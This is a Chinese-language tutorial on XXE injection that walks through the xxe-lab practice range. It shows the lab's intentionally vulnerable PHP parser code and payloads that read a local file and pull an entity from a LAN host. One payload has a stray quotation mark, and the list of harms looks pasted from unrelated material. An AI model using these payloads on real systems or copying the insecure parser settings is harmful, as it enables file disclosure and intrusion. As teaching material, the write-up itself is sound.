



# XXE 注入

https://xz.aliyun.com/t/3357
https://github.com/c0ny1/xxe-lab   靶场资源
https://zhuanlan.zhihu.com/p/31629438


## 什么是xxe注入

> XXE(XML External Entity Injection) 全称为 XML 外部实体注入

### XML和DTD的关系

那DTD又是什么呢。DTD（Document Type Definition）即文档类型定义，是一种XML约束模式语言，属于XML文件组成的一部分。下面是我们的一个常见的XML文档，最上面第一行是文档声明，中间的部分就是文档类型定义也就是我们的DTD，最下面的部分就是XML的主体各种文档元素了。DTD主要就起到了告诉解释器该怎么样解释这个XML文档的作用。




DTD文档有三种应用形式：

1.内部DTD文档


     <!DOCTYPE 根元素[定义内容]>

2.外部DTD文档

    <!DOCTYPE 根元素 SYSTEM "DTD文件路径">

3.内外部DTD文档结合

    <!DOCTYPE 根元素 SYSTEM "DTD文档路径"[定义内容]>


> 其中第二三种类型中的SYSTEM是一种标识符，可以理解为：`根据DTD文件路径`，加载这个文件的内容，并赋值给前面的根元素，`该标识符意味着该实体将从外部来源获取内容。`


### XXE漏洞的原理

既然XML可以从外部读取`DTD文件`，那我们就自然地想到了如`果将路径换成另一个文件的路径`，那么服务器在解析这个XML的时候就会把那个文件的内容赋值给SYSTEM前面的根元素中，

>只要我们在XML中让前面的根元素的内容显示出来，不就可以读取那个文件的内容了。`这就造成了一个任意文件读取的漏洞。`

这些攻击的范围可以扩展到客户端内存损坏，任意代码执行，甚至服务中断。

那如果我们指向的是一个`内网主机的端口呢`？是否会给出错误信息，我们是不是可以从`错误信息上来判断内网主机这个端口是否开放`，这就造成了一个内部端口被探测的问题。

如果我们递归地调用XML定义，一次性调用巨量的定义，那么服务器的内存就会被消耗完，造成了`拒绝服务攻击。`

可能会造成以下危害：

- 网络异常缓慢（打开文件或访问网站）
- 特定网站无法访问
- 无法访问任何网站
- 垃圾邮件的数量急剧增加[4]
- 无线或有线网络连接异常断开
- 长时间尝试访问网站或任何互联网服务时被拒绝
- 服务器容易断线、卡顿


## 开始渗透


国际惯例，先抓包看看



>到了我们发送的用户名/密码都是以POST形式发送的。并且很像是一个文档！

白盒渗透：

查看源代码，康康到底逊不逊啦

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');//这里面因为没有xml文档所以用的是php的伪协议来获取我们发送的xml文档

try{
    $dom = new DOMDocument();//创建XML的对象
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);//将我们发送的字符串生成xml文档。
    $creds = simplexml_import_dom($dom);//这一步感觉相当于实例化xml文档

    $username = $creds->username;//获取username标签的值
    $password = $creds->password;//获取password标签的值

    if($username == $USERNAME && $password == $PASSWORD){//将获取的值与前面的进行比较。...
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);//注意必须要有username这个标签，不然的话找不到username,就没有了输出了，我们也不能通过回显来获取信息了
    }else{
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);//与上方相同，都会输出username的值，都可以达到我们的目的
    }    
}catch(Exception $e){
    $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

目标明确，只要我们构造的payload最后输出在username里面就行了，于是构造

## 普通的XXE

```html
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM  "file:///c:/jojo.txt">
]>                 \\要确保有这个文件。
<user><username>&test;</username><password>Mikasa</password></user>
```



输出了文件内容


## 远程XXE

```html
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM  ""http://192.168.156.77/jojo.txt">
]>                 \\要确保有这个文件。
<user><username>&test;</username><password>Mikasa</password></user>
```


